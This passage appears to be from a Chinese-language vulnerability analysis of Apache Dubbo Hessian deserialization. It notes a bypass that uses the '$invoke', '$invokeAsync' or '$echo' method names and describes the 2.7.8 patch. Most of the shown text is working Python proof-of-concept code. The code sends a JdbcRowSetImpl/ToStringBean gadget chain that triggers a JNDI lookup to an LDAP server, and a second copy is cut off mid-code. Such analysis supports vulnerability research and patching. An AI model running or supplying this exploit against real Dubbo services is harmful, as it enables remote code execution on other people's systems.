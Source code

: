 

让method的值等于“$invoke”，“$invokeAsync”，“$echo”任意一个即可绕过

```python
# -*- coding: utf-8 -*-
#pip3 install dubbo-py
from dubbo.codec.hessian2 import Decoder,new_object
from dubbo.client import DubboClient

client = DubboClient('127.0.0.1', 20880)

JdbcRowSetImpl=new_object(
      'com.sun.rowset.JdbcRowSetImpl',
      dataSource="ldap://127.0.0.1:8085/BSLQJNYb",
      strMatchColumns=["foo"]
      )
JdbcRowSetImplClass=new_object(
      'java.lang.Class',
      name="com.sun.rowset.JdbcRowSetImpl",
      )
toStringBean=new_object(
      'com.rometools.rome.feed.impl.ToStringBean',
      beanClass=JdbcRowSetImplClass,
      obj=JdbcRowSetImpl
      )

resp = client.send_request_and_return_response(
service_name='any',
method_name='$invoke',
args=[toStringBean])
```



#### 2.7.8补丁

在2.7.8版本，DecodeableRpcInvocation.decode增加限制了参数类型为`Ljava/lang/String;[Ljava/lang/String;[Ljava/lang/Object;` 或者``Ljava/lang/Object;`

![image-20250210195253195](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250210195253195.png)

![image-20250210195408180](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250210195408180.png)

至此上面的攻击失效



#### 漏洞触发点1,2翻版

POC:

```python
#pip3 install dubbo-py
from dubbo.codec.hessian2 import Decoder,new_object
from dubbo.client import DubboClient

client = DubboClient('127.0.0.1', 20880)

JdbcRowSetImpl=new_object(
      'com.sun.rowset.JdbcRowSetImpl',
      dataSource="ldap://127.0.0.1:8085/GQOsPFQU",
      strMatchColumns=["foo"]
      )
JdbcRowSetImplClass=new_object(
      'java.lang.Class',
      name="com.sun.rowset.JdbcRowSetImpl",
      )
toStringBean=new_object(
```